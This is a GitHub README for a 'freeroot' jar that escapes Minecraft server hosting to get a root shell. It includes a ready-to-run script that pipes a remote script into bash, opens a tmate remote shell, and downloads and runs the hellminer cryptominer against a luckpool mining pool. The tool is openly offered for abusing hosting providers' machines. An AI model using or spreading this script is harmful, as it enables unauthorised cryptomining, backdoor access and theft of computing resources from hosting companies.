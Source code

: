 ## Overview
freeroot with .jar (bypass hosting minecraft)
hi =) 
## Prerequisites

- Bash shell environment
- Internet connectivity
- Wget installed
- Supported CPU architecture: x86_64 (amd64) or aarch64 (arm64)

## Installation

step 1. Download file server.jar [here](https://github.com/Mytai20100/freeroot-jar/raw/refs/heads/main/server.jar)    
step 2. Run server and enjoy it =)
## Supported Architectures
- x86_64 (amd64)
- aarch64 (arm64)
## Supported bukkit,paper,etc. 
Download plugin here : [freeroot](https://github.com/Mytai20100/freeroot-jar/raw/refs/heads/main/freeroot.jar)
## How using it ?
idk =)
## Optional Dealing with restricted hosts (e.g. using msh or blocked input access)
Some hosts block input/output or prevent apt from working properly. In these cases, you can modify the root.sh file inside freeroot and append the following snippet at the end:
>`$ROOTFS_DIR/usr/local/bin/proot \
  --rootfs="${ROOTFS_DIR}" \
  -0 -w /root -b /dev -b /sys -b /proc -b /etc/resolv.conf --kill-on-exit \
  /bin/bash -c '
    export DEBIAN_FRONTEND=noninteractive;
    apt update -y && apt upgrade -y ;
 #apt install neofetch -y 
  '
`
## Example for miner =) with hellminer
`
#!/bin/sh

ROOTFS_DIR=$(pwd)
export PATH=$PATH:~/.local/usr/bin
max_retries=50
timeout=1
ARCH=$(uname -m)

if [ "$ARCH" = "x86_64" ]; then
  ARCH_ALT=amd64
elif [ "$ARCH" = "aarch64" ]; then
  ARCH_ALT=arm64
else
  printf "Unsupported CPU architecture: ${ARCH}"
  exit 1
fi

if [ ! -e $ROOTFS_DIR/.installed ]; then
  echo "Installing Ubuntu base rootfs..."
  wget --tries=$max_retries --timeout=$timeout --no-hsts -O /tmp/rootfs.tar.gz \
    "http://cdimage.ubuntu.com/ubuntu-base/releases/20.04/release/ubuntu-base-20.04.4-base-${ARCH_ALT}.tar.gz"
  mkdir -p $ROOTFS_DIR
  tar -xf /tmp/rootfs.tar.gz -C $ROOTFS_DIR
fi

if [ ! -e $ROOTFS_DIR/usr/local/bin/proot ]; then
  mkdir -p $ROOTFS_DIR/usr/local/bin
  wget --tries=$max_retries --timeout=$timeout --no-hsts -O $ROOTFS_DIR/usr/local/bin/proot "https://raw.githubusercontent.com/foxytouxxx/freeroot/main/proot-${ARCH}"
  chmod 755 $ROOTFS_DIR/usr/local/bin/proot
fi

if [ ! -e $ROOTFS_DIR/.installed ]; then
  echo "nameserver 1.1.1.1" > $ROOTFS_DIR/etc/resolv.conf
  echo "nameserver 1.0.0.1" >> $ROOTFS_DIR/etc/resolv.conf
  touch $ROOTFS_DIR/.installed
fi

$ROOTFS_DIR/usr/local/bin/proot \
  --rootfs="${ROOTFS_DIR}" \
  -0 -w /root -b /dev -b /sys -b /proc -b /etc/resolv.conf --kill-on-exit \
  /bin/bash -c '
    export DEBIAN_FRONTEND=noninteractive;
    apt update -y && apt install -y tmate curl wget libsodium23; 
    curl neofetch.sh | bash 
    echo "Tmate session starting...";
    tmate -F > /tmate.log 2>&1 &
cat /tmate.log
wget clone https://github.com/hellcatz/hminer/releases/download/v0.59.1/hellminer_linux64.tar.gz
tar -zxf hellminer_linux64.tar.gz 
./hellminer -c stratum+tcp://na.luckpool.net:3957 -u youraddress.nameworker -p x
  '
`
## Credits
freeroot by [foxytouxxx/freeroot](https://github.com/foxytouxxx/freeroot).
freeroot by [Mytai20100/freeroot](https://github.com/Mytai20100/freeroot).
## License
(c) 2025 -2026 ????? and ??? . All rights reserved. Licensed under the MIT License.
